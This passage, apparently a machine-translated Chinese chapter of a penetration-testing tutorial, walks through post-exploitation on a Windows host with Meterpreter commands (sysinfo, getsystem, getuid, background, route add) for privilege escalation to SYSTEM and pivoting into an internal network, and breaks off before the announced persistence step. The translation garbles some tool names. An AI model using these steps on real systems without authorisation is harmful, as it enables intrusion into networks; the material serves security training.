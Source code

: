 我们已经成功地获得了对目标机器的 shell 访问权限。在下一节中，我们将看到如何执行权限提升和旋转，以及如何使后门持久化。

# 使用 MeterMeter 进行权限提升、数据透视和持久化

现在是我们练习的第二阶段。一旦有了 MeterMeter 外壳，我们将尝试执行权限升级，并在此目标服务器上获得尽可能高的权限。

但首先，让我们进一步了解我们的目标服务器。运行以下命令：

```
sysinfo
```

上述命令的输出如下所示：

![](img/b081a36a-ff9e-4f4e-9e7e-3ecf6e12f41e.jpg)

我们将看到一系列信息，例如这台机器正在运行的 Windows 版本、域等。

执行权限升级时，发出以下命令：

```
getsystem
```

如果成功，您通常会得到如下响应：

```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin))
```

这意味着我们的权限升级成功。为了验证这一点，我们可以发出以下命令：

```
getuid
```

如果我们是最高权限的用户，我们应该得到响应`Server username: NT AUTHORITY\SYSTEM`。

现在我们已经完全拥有了服务器，让我们开始在内部网络上寻找机器。为此，我们将旋转我们的 MeterMeter 会话，并从我们的 Kali 机器创建到内部网络的网桥：

1.  首先，将您的仪表外壳接地：

```
background
```

2.  添加`target`和`session`ID 的路由：

```
route add <<target ip>> <<subnet mask>> <<meterpreter session>>

```

